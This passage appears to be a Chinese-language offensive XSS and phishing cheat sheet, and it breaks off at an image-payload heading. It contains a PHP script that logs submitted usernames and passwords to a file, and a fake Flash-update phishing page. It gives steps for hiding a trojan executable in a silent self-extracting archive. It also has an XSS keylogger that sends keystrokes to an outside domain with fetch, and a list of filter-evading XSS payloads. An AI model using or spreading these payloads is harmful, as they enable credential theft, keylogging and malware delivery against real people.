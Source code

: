 	保存js&css到服务器，登录action改为接受密码的文件action="./pass.php"
```php
    <?php //php
      $user=$_POST['username'];
      $pass=$_POST['password'];
      $file=fopen('pass.txt','a+');
      fwrite($file,$user."|"."pass" . "\n");
      fclose($file);
      echo "<script>window.location.href=\"http://192.168.0.1\"</script>\n";
    ?>
```
	构造payload
	<script>window.location.href="http://192.168.0.1/login.html"</script>
	php –S 0.0.0.0:8080 –t ./
 #### 伪造页面钓鱼
	方法1
	https://github.com/r00tSe7en/Fake-flash.cn
	添加xss平台模块
	window.alert = function(name){
	var iframe = document.createElement("IFRAME");
	iframe.style.display="none";
	iframe.setAttribute("src",'data:text/plain');
	document.documentElement.appendChild(iframe);
	window.frames[0].window.alert(name);
	iframe.parentNode.removeChild(iframe);
	}
	alert("您的FLASH版本过低，尝试升级后访问该页面！");
	window.location.href="http://www.flash.com";
	制作自解压捆绑
	一个马.exe，一个正常exe，全选，winrar添加到压缩文件，选择创建自解压格式压缩文件，高级->自解压选项，设置解压路径，c:\windows\temp\，设置->解压后运行两个exe文件，模式全部隐藏，更新，解压并更新文件，覆盖所有文件。
	ResourceHacker修改文件图标
	方法2
	if(empty($_COOKIE['flash'])){
		    echo '<script>alert("你当前计算机的Flash软件已经很久未更新，将导致无法正常显示界面内容，请下载安装最新版本！");window.location="http://www.flash.cn.xx.com/"</script>';
		    setcookie("flash","true",time()+30*2400);
	}
 #### 键盘记录
  	<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
 #### 更多PAYLOAD
  	http://www.xss-payloads.com/payloads-list.html?a#category=all
 #### 更多XSS盲打工具
  	https://github.com/s0md3v/XSStrike
	https://github.com/epsylon/xsser
	https://github.com/hahwul/dalfox
	https://github.com/hahwul/XSpear
	https://github.com/fcavallarin/domdig
 #### 常见payload
```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
```